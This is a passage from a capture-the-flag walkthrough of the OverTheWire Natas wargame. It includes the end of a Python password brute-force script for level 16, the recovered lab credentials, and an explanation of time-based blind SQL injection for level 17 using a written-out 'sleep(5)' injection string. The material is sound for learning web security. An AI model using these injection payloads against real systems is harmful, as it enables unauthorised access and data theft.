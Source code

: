 ```python
        req_object['needle'] = brute_force_payload
        request = requests.post(url, auth=authentication, data=req_object)
        if "cutest" not in request.text:
            pswd  += char
            print(pswd)
            break

# Print the final password
print("The password for the next level of natas is: ", pswd)


```

This time the script will take more time so be patient, you can go to take a coffie.

After a while here we have it : XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
<br/>

---

### Natas 17
Access the website with the link : http://natas17.natas.labs.overthewire.org .  <br>
Insert the credentials :  <br>
username : natas17  <br>
password : XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd <br>

We are presented again a web form where we have to insert an username, checking the code it  is very similar to the one of level 15, still searching for a match in a mySQL database.
There is one difference tho, the response in case we write a correct or wrong username is commented out, this means that we get no written feedback whether we are inserting the right data or not.

On the bright side, there is another option available, using the "time" --> "response time" of our requests as an answer, based on the value that it will give us back we can simulate the True/False response we had on level 15.

We can use a query like this one to test if it works, and then test again with a wrong username
```sql
SELECT * from users where username="natas18" and sleep(5)
```

To try it write this in the username field:
```
natas18" and sleep(5) #
```
We can notice that the page took 5 seconds to load as we expected.
And if we try with other names like "natas19" the page will load instantly.

Now we know that the idea of using the response time as a clue is right.

As in level 15 we have 2 ways to proceed:
A little thing: if your connection is slow or congested it will make the results not correct and you might need to run both of the methods multiple times. If you still get bad results try to increase the sleep time to avoid false positives and do not do any other internet related things in the meantime.
